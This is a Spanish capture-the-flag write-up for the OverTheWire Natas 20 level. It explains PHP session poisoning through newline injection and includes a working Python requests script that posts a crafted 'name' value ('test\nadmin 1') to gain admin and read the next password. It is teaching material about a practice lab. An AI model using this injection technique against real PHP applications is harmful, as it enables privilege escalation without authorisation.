

# Natas 20 – OverTheWire

En este nivel se nos presenta una página sencilla con un campo de texto donde podemos introducir nuestro nombre.
La aplicación nos “saluda” y guarda el valor en sesión.
Nuestro objetivo: convertirnos en admin para obtener la contraseña de natas21.

## Analisis

La pista clave está en el código PHP (o en el comportamiento del sitio):

```php
<?php
session_start();

if (array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
}

if (array_key_exists("admin", $_SESSION) && $_SESSION["admin"] == 1) {
    echo "You are an admin. The password for natas21 is <hidden>";
} else {
    echo "You are logged in as a regular user.";
}
?>
```

**Observaciones importantes:**

1. El servidor usa `$_REQUEST`, que combina variables `GET, POST y COOKIE`.
2. El identificador de sesión (PHPSESSID) tiene formato aleatorio, como:

```url
PHPSESSID = fj0bagle9hif2ojhsu7icmk69n
```

Es decir, la gestión de sesión es segura, pero la lógica no.

El error está en esta línea:

```php
if (array_key_exists("name", $_REQUEST)) {
    $_SESSION["name"] = $_REQUEST["name"];
}
```

El código no distingue el origen del valor (`GET`, `POST` o `COOKIE`), así que podemos inyectar cualquier cosa en la sesión enviándolo como cookie.

### Concepto: Session Poisoning

La vulnerabilidad aquí se llama Session Poisoning (envenenamiento de sesión).
Se da cuando una aplicación copia directamente el contenido de `$_REQUEST` (que el usuario controla) a la sesión (`$_SESSION`).

Esto permite inyectar nuevas variables en la sesión (por ejemplo `admin=1`) simplemente añadiéndolas como cookies.

Sabiendo esto vamos a programar un pequeño script en python(se puede hacer si el perfectamente pero hay que mejorar haciendo scripts), lo primero que vamos a hacer es realizar una peticion `get` al servidor, para comprobar que lo hacemos bien:

```python
import requests
import re

username = 'natas20'
passwd = '<contraseñaNatas20>'

url = 'http://natas20.natas.labs.overthewire.org/index.php'

session = requests.Session()

response = session.get(url, auth= (username, passwd))
print(response.text) 
print("="*80)
```

>[!NOTE]
>Es importante hacer uso de `requests.Session()`para que se guarde nuestro `PHPSESSID` y siempre sea el mismo durante las peticiones.

Si vamos al código de la página vamos a ver que el sevidor acepta una variable por el metodo `get` llamada `debug`, vamos a ponerla en nuestra url para ver que es lo que nos muestra:



Como vemos esta variable lo que nos dice es que `PHPSESSID` y tambien nos dice algo de que el archivo no existe. Si vamos de nuevo a el código de la página veremos como el `PHPSESSID` se guarda en un archivo, está es la manera de funcionar de esta tecnologia, normalmente este archivo se guarda en `/tmp/sess_<PHPSESSID>` y la informacion que guarda se ve de la siguiente manera:

```url
name|s:4:"test";
admin|s:1:"0";
```

El reto consiste en modificar el archivo de sesión de forma que contenga:

```url
admin|s:1:"1";
```

para que el servidor crea que somos administradores.

para ello vamos a coger el script que teniamos antes y vamos a añadirle un par de líneas:

```python
import requests
import re

username = 'natas20'
passwd = '<contraseñaNatas20>'

url = 'http://natas20.natas.labs.overthewire.org/index.php?debug'

session = requests.Session()

response = session.get(url, auth=(username, passwd))
print(response.text)
print("=" * 80)

response = session.post(url, data={"name": "test\nadmin 1"}, auth=(username, passwd))
print(response.text)
print("=" * 80)

response = session.get(url, auth=(username, passwd))
print(response.text)
print("=" * 80)
```


### Explicación

1. **Primera petición (GET)**: Crea una sesión nueva (`PHPSESSID` aleatorio).
2. **Segunda petición (POST)**: Envía el campo `name` con un salto de línea \n seguido de `admin 1`.
Esto modifica el archivo de sesión y añade la línea `admin|s:1:"1";`.
3. **Tercera petición (GET)**: Carga la sesión ya modificada, detecta `admin=1` y muestra la contraseña.

### Concepto: Manipulación de sesión mediante inyección

- PHP almacena variables de sesión en archivos de texto plano.
- Si el código copia directamente el contenido de `$_REQUEST` a `$_SESSION`, un atacante puede introducir caracteres especiales (`\n`, `\r`) para inyectar nuevas variables.
- Esto se conoce como **Session Injection** o **Session Poisoning via newline injection**.

## Conclusion

- $_REQUEST es peligroso: Mezcla `GET`, `POST` y `COOKIE`, permitiendo entrada no controlada.
- Archivos de sesión PHP: Se guardan como texto, por lo que los saltos de línea pueden alterar su estructura.
- Inyección de sesión: Insertar una nueva variable en el archivo de sesión para escalar privilegios.
- Mitigación: Validar y sanear entradas antes de almacenarlas en sesión. Nunca guardar texto sin procesar.
